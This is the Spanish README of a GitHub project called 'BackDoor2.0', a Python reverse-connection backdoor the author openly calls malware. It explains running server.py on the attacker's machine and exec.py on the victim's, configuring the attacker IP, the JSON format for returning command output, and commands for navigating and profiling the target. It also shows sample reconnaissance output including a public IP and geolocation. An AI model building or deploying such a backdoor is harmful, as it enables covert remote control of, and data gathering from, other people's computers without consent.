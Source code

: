# BackDoor2.0
Esta es la version 2.0 de la anterior BackDoor base85, en esta nueva version estoy trabajando para poder anadir a la conexiones un cifrado AES. el malware todabia no se puede usar en modo trafico encriptado, pero si en trafico plano(sin encriptacion). <br>
la back door usa una conexion inversa,  siendo el script server.py el ejecutar en la maquina del atacante y el exec.py en la maquina objetivo. ambos reciben por parametro el puerto para establecer la conexion. <br>
Se a de configurar la direcion ip del archivo exec.py con su ip publica o direcion de tunel para la conexion. <br>
El malware transmite los datos en formato json ya que son mas faciles de tratar, siendo la estructura parecida a la siguiente:
self._Comando = {
	"cursor" : self._Cursor,
	"comando-data":getoutput(self._Comando),  
	"tiempo actual" : self.Time,
	"ruta actual" : self._cwd,
}
donde self.Time equivale al tiempo en la maaquina victima, self._cwd el directorio actual, self._Cursor el Cursor o barra de estado y getoutput(self._Comando) la salida del comando ejecutado.

la back door dispone de estos comando generales:  (proximamente mas...)
-  cd                    comando para desplazase por carpetas haciendo usa de la funcion os.chdir()
-  cwd                   extrae la ruta del directorio actual mediante la fun os.getcwd()
-  systeminfo            extrae info del pc objetivo
-  exit                  cierra las conexiones y finaliza el programa en la maquina victima y atacante
-  BufferServer          muestra el buffer del servidos
-  BufferServerChange    permite cambiar el buffer del server, pero no es necesario ya que el malware es capaz de calcular la cantidad necesaria en cada transmision

systeminfo da al atacante la info baica de la maquina objetivo, ejemplo:
[*] El sistema operativo victima es: Linux
[*] Tiempo actual: 2021/3/21 20:57:47
[*] Directorio: /home/desmon/Desktop/back door
[*] Nombre del equipo: desmon/desmon
[*] Ip publica de la maquina es: ['99.179.213.144', {'Latitud': '29.5040016174', 'Longitud': '-0.4200999963'}]
[*] Buffer Cliente: 4096
[*] Tipo de conexion: <socket.socket fd=10, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0, laddr=('127.0.0.1', 40066), raddr=('127.0.0.1', 8003)>
[*] Ejecutable de pythhon con el que se ejecuta: ('64bit', 'ELF')
[*] Estructura: x86_64
[*] Sistema operativo: Linux-5.10.16-arch1-1-x86_64-with-glibc2.33
[*] Nombre real del Procesador: 
[*] Info de la version python: ('default', 'Feb  6 2021 06:49:13')
[*] Compilador de python: GCC 10.2.0
[*] Implementacion de python: CPython
[*] Version del sistema: 5.10.16-arch1-1
[*] 
[*] uname_result(system='Linux', node='desmon', release='5.10.16-arch1-1', version='#1 SMP PREEMPT Sat, 13 Feb 2021 20:50:18 +0000', machine='x86_64')
